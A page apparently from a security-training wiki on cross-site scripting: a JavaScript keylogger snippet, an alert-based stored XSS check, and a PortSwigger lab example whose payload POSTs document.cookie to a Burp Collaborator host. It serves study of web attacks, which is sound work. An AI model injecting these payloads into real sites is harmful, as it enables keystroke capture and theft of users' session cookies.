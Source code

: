 ### Keylogging

```javascript
document.onkeypress = function(e) {

 get = window.event ? event : e

 key = get.keyCode ? get.keyCode : get.charCode

 key = String.fromCharCode(key)

 console.log(key)

}
```

## Examples

> The example below is based on PortSwigger's [_Exploiting cross-site scripting to steal cookies_](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies) lab.

The comment section on the web application is vulnerable to [Stored XSS](stored.md) (Figure 1).

```javascript
<script>alert(1)</script>
```

<figure><img src="../../../.gitbook/assets/web_xss_cookies_1.png" alt=""><figcaption><p>Figure 1: Confirming a Stored XSS vulnerability.</p></figcaption></figure>

Now that we know about the Stored XSS flaw, we can use Burp's Collaborator and create a payload to steal another user's cookies (Figure 2).

```javascript
<script>
fetch(
'https://nwn712w9l1ca8s437qcetzwtdkjb72vr.oastify.com',
    {
        method:'POST',
        mode: 'no-cors',
        body: document.cookie
    }
);
</script>
```
